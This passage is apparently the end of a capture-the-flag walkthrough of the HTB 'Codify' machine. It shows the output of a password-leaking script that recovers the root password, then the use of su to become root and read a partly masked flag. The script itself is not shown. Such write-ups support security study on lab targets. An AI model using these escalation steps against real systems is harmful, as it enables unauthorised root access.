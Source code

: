 
Running that gets down under 20 seconds:

    
    
    joshua@codify:/dev/shm$ time python3 leak_password.py 
    kljh12k3jhaskjh12kjh3        
    
    real    0m18.253s
    user    0m2.193s
    sys     0m2.820s
    

Minor improvement, so probably not worth it here, but if the delay on success
was longer, it would definitely be!

### su

With the password, I can `su` to root:

    
    
    joshua@codify:/dev/shm$ su -
    Password: 
    root@codify:~#
    

And grab `root.txt`:

    
    
    root@codify:~# cat root.txt
    fe1a209e************************
    

[](/2024/04/06/htb-codify.html)

